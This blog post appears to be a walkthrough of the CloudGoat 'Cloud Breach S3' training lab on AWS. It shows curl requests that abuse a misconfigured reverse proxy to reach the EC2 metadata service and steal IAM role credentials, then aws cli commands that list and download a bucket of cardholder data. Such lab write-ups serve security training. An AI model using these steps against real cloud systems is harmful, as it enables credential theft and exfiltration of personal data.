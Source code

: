 ```yaml
---
title:  "CloudGoat: Cloud Breach S3"
date:   2024-03-17
tags: cloudsecurity cybersecurity aws
last_modified_at: 2024-03-17
---
```


We did not get any users in this scenario, but we knew the IP Address of EC2 instance which is a misconfigured reversed proxy server. We will take credentials from the instance role, and use this credentials to exfiltrate data from S3.

### Get Role from EC2
```shell
curl -s http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/ -H 'Host:169.254.169.254'
```

Result:
```
cg-banking-WAF-Role-cloud_breach_s3_###
```

We got the role for this instance

### Get role credentials
```shell
curl -s http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/cg-banking-WAF-Role-cloud_breach_s3_### -H 'Host:169.254.169.254'
```

Result:
```json
{
  "AccessKeyId" : "<access-key-id>",
  "SecretAccessKey" : "<secret-access-key",
  "Token" : "<session-token"
}
```

To create AWS cli profile, <a href="{% post_url 2024-03-05-cloudgoat-vulnerable-lambda %}">see here</a>

In this blog, I will use `cg-banking` as an assumed role.

### List S3 buckets
```shell
aws --profile cg-banking s3 ls
```

Result:
```
2024-03-17 16:03:00 cg-cardholder-data-bucket-cloud-breach-s3-###
```

### Get PII data
To download all data from S3 to our local computer, we will sync our local folder with S3 bucket
```shell
aws --profile cg-banking s3 sync s3://cg-cardholder-data-bucket-cloud-breach-s3-### ./cardholder-data
```

See all files in folder
```shell
ls cardholder-data
```

Result:
```
cardholder_data_primary.csv   cardholders_corporate.csv
cardholder_data_secondary.csv goat.png
```

🎇 All cardholder data are in our hands.
